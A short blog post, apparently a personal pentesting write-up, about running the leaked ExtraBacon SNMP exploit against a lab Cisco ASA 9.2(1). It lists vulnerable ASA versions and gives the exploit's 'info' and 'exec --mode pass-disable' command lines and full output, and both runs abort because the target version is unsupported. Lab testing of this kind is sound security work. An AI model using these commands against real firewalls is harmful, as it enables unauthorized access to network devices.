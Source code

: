 ```yaml
---
layout: post
title: ExtraBacon Test On ASA Firewall
tags:
- asa
- cisco
- exploit
- extrabacon
- firewall
- hacking
- leaked
- nsa
- pentesting
---
```


![](http://www.baconcoma.com/wp-content/uploads/2012/10/Extra-Bacon.jpg)

Hello everyone. i found some free time today and thought to give it a shot on extrabacon exploit of NSA's Leaked stuff...
there are already some successful articles out there about it but i wanted to show you what happens on a newer ASA firewall when the explot fails.

Extrabacon exploit is a remote code execution exploit against Cisco Adaptive Security Appliance (ASA) devices affecting ASA versions 802, 803, 804, 805, 821, 822, 823, 824, 825, 831, 832, 841, 842, 843, 844. It exploits an overflow vulnerability using the Simple Network Management Protocol (SNMP) and relies on knowing the target's uptime and software version.

In my case i installed a firewall ASA 921 and of course it didn't work as expected. This version is not affected.
This is the outcome of the execution for info>root@trickster0-virtual-machine:/home/trickster0/Desktop/EXBA# python extrabacon_1.1.0.1.py info -t 192.168.0.128 -v -c public
WARNING: No route found for IPv6 destination :: (no default route?)
Logging to /home/trickster0/Desktop/EXBA/concernedparent
[+] Executing:  extrabacon_1.1.0.1.py info -t 192.168.0.128 -v -c public
[+] running from /home/trickster0/Desktop/EXBA
[+] probing target via snmp
[+] Connecting to 192.168.0.128:161
****************************************
[+] Data returned
[+] 0000   30 7D 02 01 01 04 06 70  75 62 6C 69 63 A2 70 02   0}.....public.p.
[+] 0010   01 00 02 01 00 02 01 00  30 65 30 3C 06 08 2B 06   ........0e0<..+.
[+] 0020   01 02 01 01 01 00 04 30  43 69 73 63 6F 20 41 64   .......0Cisco Ad
[+] 0030   61 70 74 69 76 65 20 53  65 63 75 72 69 74 79 20   aptive Security 
[+] 0040   41 70 70 6C 69 61 6E 63  65 20 56 65 72 73 69 6F   Appliance Versio
[+] 0050   6E 20 39 2E 32 28 31 29  30 0F 06 08 2B 06 01 02   n 9.2(1)0...+...
[+] 0060   01 01 03 00 43 03 00 92  E0 30 14 06 08 2B 06 01   ....C....0...+..
[+] 0070   02 01 01 05 00 04 08 63  69 73 63 6F 61 73 61      .......ciscoasa
###[ SNMP ]###
  version   = 
  community = 
  \PDU       \
   |###[ SNMPresponse ]###
   |  id        = 
   |  error     = 
   |  error_index= 
   |  \varbindlist\
   |   |###[ SNMPvarbind ]###
   |   |  oid       = 
   |   |  value     = 
   |   |###[ SNMPvarbind ]###
   |   |  oid       = 
   |   |  value     = 
   |   |###[ SNMPvarbind ]###
   |   |  oid       = 
   |   |  value     = 
[+] End of  Data returned

[+] response:
###[ SNMP ]###
  version   = 
  community = 
  \PDU       \
   |###[ SNMPresponse ]###
   |  id        = 
   |  error     = 
   |  error_index= 
   |  \varbindlist\
   |   |###[ SNMPvarbind ]###
   |   |  oid       = 
   |   |  value     = 
   |   |###[ SNMPvarbind ]###
   |   |  oid       = 
   |   |  value     = 
   |   |###[ SNMPvarbind ]###
   |   |  oid       = 
   |   |  value     = 

[+] firewall uptime is 37600 time ticks, or 0:06:16

[+] firewall name is ciscoasa

[-] target is running Cisco Adaptive Security Appliance Version 9.2(1), which is NOT supported
Data stored in key file  : unsupported
Data stored in self.vinfo: UNSUPPORTED

To check the key file to see if it really contains what we're claiming:
# cat /home/trickster0/Desktop/EXBA/keys/Y57qgB.key


This is the output for the exec


>root@trickster0-virtual-machine:/home/trickster0/Desktop/EXBA# python extrabacon_1.1.0.1.py exec -t 192.168.0.128 -v -c public --mode pass-disable
WARNING: No route found for IPv6 destination :: (no default route?)
Logging to /home/trickster0/Desktop/EXBA/concernedparent
[+] Executing:  extrabacon_1.1.0.1.py exec -t 192.168.0.128 -v -c public --mode pass-disable
[+] running from /home/trickster0/Desktop/EXBA
[+] probing target via snmp
[+] Connecting to 192.168.0.128:161
****************************************
[+] Data returned
[+] 0000   30 7D 02 01 01 04 06 70  75 62 6C 69 63 A2 70 02   0}.....public.p.
[+] 0010   01 00 02 01 00 02 01 00  30 65 30 3C 06 08 2B 06   ........0e0<..+.
[+] 0020   01 02 01 01 01 00 04 30  43 69 73 63 6F 20 41 64   .......0Cisco Ad
[+] 0030   61 70 74 69 76 65 20 53  65 63 75 72 69 74 79 20   aptive Security 
[+] 0040   41 70 70 6C 69 61 6E 63  65 20 56 65 72 73 69 6F   Appliance Versio
[+] 0050   6E 20 39 2E 32 28 31 29  30 0F 06 08 2B 06 01 02   n 9.2(1)0...+...
[+] 0060   01 01 03 00 43 03 00 E3  BC 30 14 06 08 2B 06 01   ....C....0...+..
[+] 0070   02 01 01 05 00 04 08 63  69 73 63 6F 61 73 61      .......ciscoasa
###[ SNMP ]###
  version   = 
  community = 
  \PDU       \
   |###[ SNMPresponse ]###
   |  id        = 
   |  error     = 
   |  error_index= 
   |  \varbindlist\
   |   |###[ SNMPvarbind ]###
   |   |  oid       = 
   |   |  value     = 
   |   |###[ SNMPvarbind ]###
   |   |  oid       = 
   |   |  value     = 
   |   |###[ SNMPvarbind ]###
   |   |  oid       = 
   |   |  value     = 
[+] End of  Data returned

[+] response:
###[ SNMP ]###
  version   = 
  community = 
  \PDU       \
   |###[ SNMPresponse ]###
   |  id        = 
   |  error     = 
   |  error_index= 
   |  \varbindlist\
   |   |###[ SNMPvarbind ]###
   |   |  oid       = 
   |   |  value     = 
   |   |###[ SNMPvarbind ]###
   |   |  oid       = 
   |   |  value     = 
   |   |###[ SNMPvarbind ]###
   |   |  oid       = 
   |   |  value     = 

[+] firewall uptime is 58300 time ticks, or 0:09:43

[+] firewall name is ciscoasa

[-] target is running Cisco Adaptive Security Appliance Version 9.2(1), which is NOT supported
Data stored in key file  : unsupported
Data stored in self.vinfo: UNSUPPORTED
[+] generating exploit for exec mode pass-disable
[-] unsupported target version, abort


I will try and test some more stuff for fun. Have a nice day everyone!
